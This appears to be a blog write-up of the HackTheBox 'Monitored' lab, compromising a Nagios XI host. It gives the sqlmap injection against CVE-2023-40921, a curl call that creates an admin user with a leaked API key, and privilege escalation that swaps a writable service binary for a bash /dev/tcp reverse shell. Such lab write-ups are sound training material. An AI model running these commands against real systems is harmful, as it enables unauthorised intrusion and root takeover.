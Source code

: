 ```yaml
---
layout: post
title: "Monitored 5072dccbda244138834a1e9fcdcde283"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Monitored

HackTheBox: Medium

<aside>
💡 Monitored is a machine with a service powered by nagiosxi which is useful for IT infrastructure monitoring

</aside>

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled.png' | relative_url }})

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_1.png' | relative_url }})

After some re-search we find some vulnerabilities with a possible slq injection but we need some creds with low privileges

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_2.png' | relative_url }})

## 2: User flag

> If we perform a snmpwalk to get a full list about allow gadgets in the network
> 

There we find some creds, they are no useful for the main page but we can try with sqlmap

> Looking fo vulnerabilities we find a specific url which doesn’t has sanitization in a parameter (id) (CVE-2023-40921)
> 

```bash
sqlmap -u <url> --data "user&password" --level 5 --risk 3 -p id --batch(automatic) -D(db)
nagxi -T(table) --dump(get data)
```

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_4.png' | relative_url }})

> Now we have an auth token and we are able to create a new user for nagios
> 

```bash
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=admin111&password=admin111&name=Admin111&email=admin111@localhost&auth_level=admin"
```

We get into nagios dashboard in the route 

1. Core config 
2. Commands and create a new command(rev shell)
3. apply conf
4. Monitoring→host→local→checkcommand
5. Listen on specific port and user flag got it

## 3: Priv esc

```bash
[linpeas.sh](http://linpeas.sh/):
/etc/systemd/system/multi-user.target.wants/mariadb.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
/etc/systemd/system/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
```

We can modify /usr/local/nagios/bin/npcd file.

Check out what we can run as root:

```bash
sudo -l:
....
/usr/local/nagiosxi/scripts/manage_services.sh *
```

We can start/stop npcd.service.

```bash
$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
$ rm npcd

## pass a new npcd file with the rev shell lines (Dont try to modify a bin
##in those conditions is almost imposible)

#!/bin/bash

## bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1

##Start nc on your local machine, then:
$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

machine pwned!!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
